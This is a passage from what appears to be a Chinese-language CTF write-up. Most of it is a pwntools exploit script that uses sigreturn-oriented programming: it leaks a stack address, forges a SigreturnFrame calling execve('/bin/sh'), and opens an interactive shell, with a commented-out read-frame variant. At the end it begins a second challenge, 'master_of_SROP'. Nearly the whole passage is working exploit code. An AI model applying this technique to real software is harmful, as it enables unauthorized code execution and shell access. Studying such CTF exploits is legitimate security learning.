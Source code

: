    ```py
   stack_addr = u64(p.recv()[0x00002d0:0x00002d0+8])
   success("stack_addr ==> " + hex(stack_addr))
   
   
   
   # # 构造frame,表示read(0,stack_addr,0x400)
   # frame = SigreturnFrame()
   # frame.rax = constants.SYS_read  # read函数的系统编号
   # frame.rdi = 0x0                 # read函数读入的文件 0 ==> 标准输入
   # frame.rsi = stack_addr          # read函数写入地址
   # frame.rdx = 0x400               # read函数写入的长度
   # frame.rsp = stack_addr
   # frame.rip = syscall_ret         # 调用read函数
   
   # print(len(frame))
   # payload = p64(SYS_read_ret) + p64(0) + bytes(frame)
   # p.send(payload)
   
   # pause()
   # #通过控制输入的字符数量，调用sigreturn，从而控制寄存器的值
   # payload = p64(syscall_ret) + b"\x00"*(15-8) # 通过read的返回值 来控制rax寄存器的值 执行前面的Sigreturn
   # p.send(payload)
   
   # 构造frame,表示execv("/bin/sh",0,0)
   frame = SigreturnFrame()
   frame.rax = constants.SYS_execve    # execve函数的系统编号
   frame.rdi = stack_addr - 0x000229   # /bin/sh地址
   frame.rsi = 0x0
   frame.rdx = 0x0
   frame.rsp = stack_addr
   frame.rip = syscall_ret             # 调用execve函数
   
   frame_payload = p64(SYS_read_ret) + p64(0) +bytes(frame)    # SYS_read_ret用来作为返回值 后续输入来执行SYS_rt_sigreturn
   payload = frame_payload + b"/bin/sh\x00"
   p.send(payload)
   pause()
   payload = p64(syscall_ret) + b"\x00"*(15-8) # 通过read的返回值 来控制rax寄存器的值 执行前面的Sigreturn
   p.send(payload)
   
   pause()
   p.interactive()
   ```




## 2.master_of_SROP_Yx佬

1. ida只有5条指令：

   ![image-20241101183132370](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202411011831458.png)
